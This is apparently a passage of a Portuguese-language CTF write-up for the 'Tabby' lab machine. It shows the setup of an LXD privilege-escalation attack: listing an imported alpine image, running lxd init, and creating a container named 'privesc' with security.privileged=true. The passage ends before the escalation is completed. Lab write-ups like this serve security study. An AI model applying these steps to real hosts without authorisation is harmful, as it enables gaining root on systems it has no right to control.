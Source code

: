 Com o comando `lxc image list`  vc consegue ver todos os containers montados, no caso só o seu

```bash
ash@tabby:~$ lxc image list
lxc image list
+--------+--------------+--------+--------------+--------------+-----------+---------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC | DESCRIPTION  | ARCHITECTURE |   TYPE    |  SIZE   |          UPLOAD DATE          |
+--------+--------------+--------+--------------+--------------+-----------+---------+-------------------------------+
| alpine | a5f784005c68 | no     | Ubuntu focal | x86_64       | CONTAINER | 97.74MB | Jul 10, 2020 at 10:50pm (UTC) |
+--------+--------------+--------+--------------+--------------+-----------+---------+-------------------------------+
```

fui seguindo o tutorial do  LXC  no link lá em cima.

```bash
lxd init
```
Esse comando vai começar a montar o container, ele vai fazer uma serie de perguntas, vai deixando tudo como 'default'

```bash
    ash@tabby:~$ lxd init
    Would you like to use LXD clustering? (yes/no) [default=no]: no
    Do you want to configure a new storage pool? (yes/no) [default=yes]: no
    Would you like to connect to a MAAS server? (yes/no) [default=no]: ^C
    ash@tabby:~$ lxd init
    Would you like to use LXD clustering? (yes/no) [default=no]: no
    Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
    Name of the new storage pool [default=default]: 
    Name of the storage backend to use (dir, lvm, ceph, btrfs) [default=btrfs]: dir
    Would you like to connect to a MAAS server? (yes/no) [default=no]: no
    Would you like to create a new local network bridge? (yes/no) [default=yes]: 
    What should the new bridge be called? [default=lxdbr0]: 
    The requested network bridge "lxdbr0" already exists. Please choose another name.
    What should the new bridge be called? [default=lxdbr0]: 
    The requested network bridge "lxdbr0" already exists. Please choose another name.
    What should the new bridge be called? [default=lxdbr0]: liquid
    What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
    What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
    Would you like LXD to be available over the network? (yes/no) [default=no]: 
    Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
    Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
```

Depois que montei, usei o comando abaixo para iniciar ele. 


```bash
ash@tabby:~$ lxc init alpine privesc -c security.privileged=true
lxc init alpine privesc -c security.privileged=true
Creating privesc
ash@tabby:~$ lxc list
lxc list
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
```
